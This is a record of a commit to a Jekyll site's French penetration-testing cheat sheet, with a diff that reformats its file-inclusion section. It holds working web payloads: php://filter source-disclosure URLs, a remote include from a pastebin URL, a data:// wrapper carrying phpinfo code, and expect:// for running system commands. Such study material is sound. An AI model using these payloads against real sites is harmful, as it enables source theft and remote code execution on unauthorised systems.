

Before and after one commit to fhbapt/fhbapt.github.io, a Jekyll site: the page built from _pages/cheatseet.md, in a window 1280 px wide and 1400 px high, scrolled down 2228 px. Shown: the whole window, without its empty margins (207-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 3591 px from its top, so only the background shows below that.

Commit message:
Update cheatseet.md

````diff
--- a/_pages/cheatseet.md
+++ b/_pages/cheatseet.md
@@ -106,11 +106,15 @@ Les fichiers intéressants :
 
 **Wrapper php://filter**
 
-`https://fhbapt.github.io/?page=php://filter/read=string.rot13/resource=index.php` Récupérer une page en la convertissant en rot13
+Récupérer une page en la convertissant en rot13 :
 
-`https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php` "" base64
+`https://fhbapt.github.io/?page=php://filter/read=string.rot13/resource=index.php`
 
-`https://fhbapt.github.io/?page=pHp://FilTer/convert.base64-encode/resource=index.php` "" avec variation des min/MAJ
+Récupérer une page en la convertissant en base64 :
+
+`https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php`
+
+`https://fhbapt.github.io/?page=pHp://FilTer/convert.base64-encode/resource=index.php`
 
 ### RFI (Remote File Inclusion) <a name="rfi"></a>
 
@@ -126,18 +130,17 @@ Exemple de RFI :
 
 Utilisation de pastbin pour émuler le serveur et inclure le code du pastbin:
 
-```https://fhbapt.github.io/?page=https://pastebin.com/raw/G68SZPQG``` Le pastbin correspond à un phpinfo()
+`https://fhbapt.github.io/?page=https://pastebin.com/raw/G68SZPQG`
 
 **Wrapper data://**
 
-```
-https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
-# La payload est <?php phpinfo(); ?>
-```
+`https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==`
+
+La payload est `<?php phpinfo(); ?>`
 
 **Wrapper expect://**
 
-> Permet d'interpreter du code système directement
+Le Wrapper expect permet d'interpreter du code système directement
 
 `https://fhbapt.github.io/?page=expect://ls`
 
````
